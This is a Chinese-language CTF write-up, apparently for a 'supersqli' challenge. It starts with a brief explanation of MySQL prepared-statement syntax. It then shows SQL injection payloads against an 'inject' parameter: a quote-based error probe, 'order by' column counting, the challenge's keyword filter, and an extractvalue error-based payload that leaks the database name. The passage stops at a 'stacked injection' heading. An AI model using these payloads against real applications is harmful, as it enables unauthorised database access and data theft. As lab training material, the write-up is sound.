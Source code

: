 MySQL 官方将 prepare、execute、deallocate 统称为 PREPARE STATEMENT。翻译也就习惯的称其为预处理语句。

MySQL 预处理语句的支持版本较早，所以我们目前普遍使用的 MySQL 版本都是支持这一语法的。

```
# 定义预处理语句
PREPARE stmt_name FROM preparable_stmt;
# 执行预处理语句
EXECUTE stmt_name [USING @var_name [, @var_name] ...];
# 删除(释放)定义
{DEALLOCATE | DROP} PREPARE stmt_name;
```

转载于：https://www.cnblogs.com/geaozhang/p/9891338.html



## 开始操作

直接进来，本以为是命令执行，结果不是。

发现是`sql注入`,

`1'`报错，`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从报错中得到字符型注入，闭合方式为单引号，还德到可以报错注入。

首先常规步骤走一哈子

## 联合查询

`?inject=1' order by 2--+`得到字段为2

`?inject=1' and select 1,2 --+`返回`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`,这也太尴尬了，直接过滤select,看来是联合查询搞不了了。

![UtnJDe.png](https://s1.ax1x.com/2020/07/13/UtnJDe.png)

## 报错注入

在刚开始的报错就说明了可以报错注入。

但是`updatexml`函数中含有update，所以不能使用，这里使用extractvalue.

`extractvalue(目标xml文档，xml路径)` :对XML文档进行查询的函数

`?inject=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+`,

报错了`error 1105 : XPATH syntax error: '~supersqli~'`,得到数据库为`supersqli`

![UtuoWt.png](https://s1.ax1x.com/2020/07/13/UtuoWt.png)

但是之后就比较尴尬了。。。select又不能用。

## 堆叠注入
